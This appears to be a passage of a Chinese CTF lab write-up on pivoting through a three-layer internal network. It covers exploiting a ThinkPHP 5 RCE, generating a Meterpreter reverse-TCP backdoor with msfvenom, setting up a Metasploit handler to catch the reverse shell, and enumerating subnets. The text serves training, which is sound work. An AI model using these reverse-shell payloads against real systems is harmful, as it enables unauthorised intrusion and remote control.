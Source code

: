 ![内网隧道穿透漫游1](img/NwSdMy1.png)

## 大赛模拟-CFS三层内网漫游演练测评-某CTF2019

1. 来源2019某CTF线下赛真题内网结合WEB攻防题库，涉及WEB攻击，内网代理路由等技术，每台服务器存在一个Flag,获取每一个Flag对应一个积分，获取三个Flag结尾。

2. Target1：探针目标-利用WEB漏洞(TP5_RCE)-获取webshell权限-获取Flag-Target2

   - 生成后门：

     ``` shell
     msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.46.131 LPORT=1111 -f elf >t1.elf
     ```

   - 接受反弹：

     ``` shell
     use exploit/multi/handler
     
     set payload linux/x64/meterpreter/reverse_tcp
     
     set LHOST 192.168.46.131
     
     set LPORT 1111
     
     exploit
     ```

   - 信息收集及配置访问

     - 获取网络接口

       ``` shell
       run get_local_subnets
       ```
